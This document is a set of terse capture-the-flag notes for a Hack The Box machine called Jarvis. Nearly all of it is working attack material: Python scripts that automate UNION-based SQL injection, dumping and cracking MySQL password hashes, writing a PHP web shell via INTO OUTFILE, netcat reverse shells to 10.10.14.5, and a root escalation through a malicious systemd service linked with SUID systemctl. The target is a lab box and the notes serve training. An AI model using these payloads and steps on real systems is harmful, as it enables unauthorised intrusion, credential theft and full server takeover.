










PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


supersecurehotel.htb

sudo bash -c 'echo "10.10.10.143 supersecurehotel.htb" >> /etc/hosts'


full scan:
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel



main page still loads after that



 Login without a password is forbidden by configuration (see AllowNoPassword)


POST creates HTTP/1.1 412 Precondition Failed




<a href="#">supersecurehotel@logger.htb</a>


cewl -w passwords.txt -d 10 -m 1 http://supersecurehotel.htb


still displays family room, id=1
GET /room.php?cod=0+OR+1%3d1 HTTP/1.1

```py
import requests
import urllib
import uuid

url = "http://10.10.10.143/room.php?cod=-123+INJECT"
query_selector = ""

uid_list = dict(map(lambda i: (i, uuid.uuid4().hex), range(0,20)))
num_list = list(map(lambda i: str(i), range(1,20)))

for i in range(0,20):
    param_str = "'{0}'".format("','".join(list(uid_list.values())[:i]))
    sql = f"UNION ALL SELECT {param_str}"
    url_encoded = urllib.parse.quote(sql)
    # print(url_encoded)
    req_url = url.replace("INJECT", url_encoded)
    # print(sql)
    # print(i)
    response = requests.get(req_url)
    text = response.text
    # print(text)
    has_printed_url = False
    for (position, uid) in uid_list.items():
        if uid in text:
            if not has_printed_url:
                has_printed_url = True
                print(req_url)
            print(f"Found uid {uid} on position {position} num params: {i}")
```


http://10.10.10.143/room.php?cod=-12%20union%20all%20select%201,2,3,4,5,6,7


7 fields


GET /room.php?cod=-1000+UNION+ALL+SELECT+1,2,@@version,4,5,6,7%3b+--+- HTTP/1.1

<span class="price-room">10.1.37-MariaDB-0+deb9u1</span>


/room.php?cod=-1000 UNION ALL SELECT 1,2,(select schema_name from information_schema.schemata limit 1),4,5,6,7; -- -


sql = "UNION ALL SELECT 1,2,(select schema_name from information_schema.schemata limit 5,1),4,5,6,7; -- -"


databases =

hotel,
information_schema,
mysql,
performance_schema

```py
import requests
import urllib
import uuid
from bs4 import BeautifulSoup


def run_sql(sql):
    url = "http://10.10.10.143/room.php?cod=-123+INJECT"
    query_selector = ".price-room"

    url_encoded = urllib.parse.quote(sql)

    response = requests.get(url.replace("INJECT", url_encoded))
    text = response.text

    soup = BeautifulSoup(text, 'html.parser')

    print(soup.select_one(query_selector).text)

def run_sub(sql):
    base_sql = "UNION ALL SELECT 1,2,(SUBQUERY),4,5,6,7; -- -"
    run_sql(base_sql.replace("SUBQUERY", sql))

run_sub("select schema_name from information_schema.schemata limit 0,1")
run_sub("select schema_name from information_schema.schemata limit 1,1")
run_sub("select schema_name from information_schema.schemata limit 2,1")
run_sub("select schema_name from information_schema.schemata limit 3,1")
run_sub("select schema_name from information_schema.schemata limit 4,1")

# return all items
run_sub("select group_concat(schema_name) from information_schema.schemata limit 1")

print("hotel database table names tablename:col")
run_sub("select group_concat(table_name,':', column_name, '\n') from information_schema.columns where table_schema='hotel' limit 1")

print("all data from hotel.room")
run_sub("select group_concat(room.cod, room.name, room.price, room.descrip, room.star, room.image, room.mini, '\n') from hotel.room limit 1")

print("mysql users")
run_sub("SELECT group_concat(host,'|',user, '|', password) FROM mysql.user LIMIT 1")

```


kali@kali:~/htb/boxes/jarvis/10.10.10.143$ echo "DBadmin:*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0" >> dbadmin.creds
kali@kali:~/htb/boxes/jarvis/10.10.10.143$ john --format=mysql-sha1 dbadmin.creds -w ~/htb/rockyou.txt 
Warning: invalid UTF-8 seen reading /home/kali/htb/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
imissyou         (DBadmin)
1g 0:00:00:00 DONE (2021-02-11 16:24) 100.0g/s 246400p/s 246400c/s 246400C/s twilight..ashlee
Use the "--show" option to display all of the cracked passwords reliably
Session completed




SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/rev.php"






GET /rev.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.5+4444+>/tmp/f HTTP/1.1

/bin/sh: 0: can't access tty; job control turned off
$ $ $ uid=33(www-data) gid=33(www-data) groups=33(www-data)


www-data@jarvis:/var/www/html$ cat connection.php      
<?php
$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');
?>


## privesc

Matching Defaults entries for www-data on jarvis:                                                                                                                                                                                                                                                                            
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                                                                                             
User www-data may run the following commands on jarvis:                                                                                                                                                                                                                                                                      
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py


SUID -rwsr-x--- 1 root pepper     171K Feb 17  2019 /bin/systemctl

nc 10.10.14.5 1234 < /var/www/Admin-Utilities/simpler.py


-rwxr--r-- 1 pepper   pepper   4.5K Mar  4  2019 /var/www/Admin-Utilities/simpler.py


echo "nc -e /bin/bash 10.10.14.5 4445" > rev.sh






https://gtfobins.github.io/gtfobins/systemctl/

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc 10.10.14.5 1234 -e /bin/bash"
[Install]
WantedBy=multi-user.target' > evil.service


/bin/systemctl link $(pwd)/evil.service
/bin/systemctl enable --now $(pwd)/evil.service



